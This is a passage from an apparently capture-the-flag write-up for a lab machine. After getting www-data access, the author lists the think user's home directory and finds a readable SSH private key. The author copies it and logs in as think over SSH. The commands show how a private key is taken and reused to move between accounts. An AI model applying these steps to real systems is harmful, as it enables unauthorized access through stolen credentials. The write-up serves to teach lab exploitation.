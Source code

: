 We can read the user flag at `/home/think` as the `www-data` user.

```console
www-data@41c976e507f8:/home/think$ wc -c user.txt
35 user.txt
```

## Shell as think

### Examining the Filesystem

We also notice the existence of the `.ssh` directory inside `/home/think`.

```console
www-data@41c976e507f8:/home/think$ ls -la
total 48
drwxr-xr-x 8 think    think    4096 Feb 10 21:27 .
drwxr-xr-x 1 root     root     4096 Dec  7  2023 ..
lrwxrwxrwx 1 root     root        9 Jun 21  2023 .bash_history -> /dev/null
-rw-r--r-- 1 think    think     220 Nov 14  2023 .bash_logout
-rw-r--r-- 1 think    think    3771 Nov 14  2023 .bashrc
drwx------ 2 think    think    4096 Nov 14  2023 .cache
drwx------ 3 think    think    4096 Dec  8  2023 .config
drwx------ 3 think    think    4096 Feb 10 21:22 .gnupg
drwxrwxr-x 3 think    think    4096 Jan 10 12:46 .local
-rw-r--r-- 1 think    think     807 Nov 14  2023 .profile
lrwxrwxrwx 1 think    think       9 Feb 10 21:27 .python_history -> /dev/null
drwxr-xr-x 2 think    think    4096 Jan 10 12:54 .ssh
lrwxrwxrwx 1 think    think       9 Feb 10 21:27 .viminfo -> /dev/null
drwxr-x--- 5 www-data www-data 4096 Dec 20  2023 spip
-rw-r--r-- 1 root     root       35 Feb 10 21:20 user.txt
```

Inside the `/home/think/.ssh` directory, we find an SSH key.

```console
www-data@41c976e507f8:/home/think/.ssh$ ls -la
total 20
drwxr-xr-x 2 think think 4096 Jan 10 12:54 .
drwxr-xr-x 8 think think 4096 Feb 10 21:27 ..
-rw-r--r-- 1 root  root   569 Jan 10 12:54 authorized_keys
-rw-r--r-- 1 think think 2602 Jan 10 12:48 id_rsa
-rw-r--r-- 1 think think  569 Jan 10 12:48 id_rsa.pub
```

Downloading the `id_rsa` key and testing it against the SSH service as the `think` user, we get a shell on the host.

```console
$ ssh -i think_key think@10.10.159.24
...
think@publisher:~$ id
uid=1000(think) gid=1000(think) groups=1000(think)
```
